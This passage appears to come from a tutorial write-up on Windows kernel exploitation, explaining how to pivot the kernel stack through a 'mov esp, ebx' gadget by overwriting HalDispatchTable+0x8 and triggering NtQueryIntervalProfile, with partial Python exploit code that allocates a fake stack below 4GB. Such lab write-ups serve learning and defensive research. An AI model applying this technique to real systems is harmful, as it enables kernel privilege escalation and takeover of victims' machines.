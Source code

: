 
Fortunately, we found a clean gadget at `0x00000000003e92b9` that just moves the value and returns.

So, in summary: when we call `NtQueryIntervalProfile`, our stack pivoting gadget (mov esp, ebx) will be triggered. The second parameter we send in the function call will be placed in RBX, but since our gadget is using EBX instead, we can not pass a value greater than 0xffffffff. After the gadget executes, the kernel stack will be pivoted to an address we control.

We must allocate our fake stack (that will be the new kernel stack after the pivoting) in an address that fits in a 32 bits register. The VirtualAlloc Windows API allows us to specify a kind of "preferred address" where we want to allocate memory, and it will try to allocate somewhere below or equals to this address. [Read more here](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc). 

There are some other things to consider. You can't use exact address returned by VirtualAlloc as the new stack for the kernel, otherwise the kernel may raise a Double Fault exception. I don't know exaclty why this happens, but I've seen [other people](https://kristal-g.github.io/2021/02/20/HEVD_Type_Confusion_Windows_10_RS5_x64.html) having this problem too. It is safer to allocate a big chunk of memory and pass a pointer for the middle of this big chunk to be used as the new stack. If the kernel decides to use the memory around your fake stack, the pages near that will be already allocated, preventing the DoubleFault exception (cause you allocated a big chunk and the kernel stack is in the middle of this chunk).

This is our unfinished code for the stack pivoting:

```python
def get_fake_stack_addr():
    FAKE_STACK_SIZE = 0xD000
    fake_stack = 'VALUES_IN_OUR_FAKE_STACK'

	// 0x00ffffff is our preferred address, a 32-bit value
    buffer = windll.kernel32.VirtualAlloc(0x00ffffff, FAKE_STACK_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)

    if buffer == 0:
        print('Failed to allocate fake stack buffer')
        return -1

    # The fake stack will be actually in the middle of the big chunk we allocated
    fake_stack_ptr = buffer + int(FAKE_STACK_SIZE / 2)

    if fake_stack_ptr > 0xffffffff:
        print('Fake stack pointer is larger than 2^32')
        return -1

    # The following lines will just move the values in the fake_stack variable to the actual fake stack we allocated with VirtualAlloc
    tmp_c_buffer = (c_char * len(fake_stack)).from_buffer(fake_stack)
    windll.kernel32.RtlMoveMemory(fake_stack_ptr, tmp_c_buffer, len(fake_stack))

    return fake_stack_ptr

def main():
    hal_dispatch_table_addr = get_kernel_symbol_addr(b'HalDispatchTable')

    g_stack_pivot = 0x00000000003e92b9       # mov esp, ebx; ret;
    kernel_base = get_kernel_base()
    g_stack_pivot += kernel_base

    if hal_dispatch_table_addr in [0, -1]:
        print('Error while getting address to HalDispatchTable')
        return 1

    backup_function_pointer = read(hal_dispatch_table_addr + 0x8)
    fake_stack_ptr = get_fake_stack_addr()
    write(g_stack_pivot, hal_dispatch_table_addr + 0x8)
```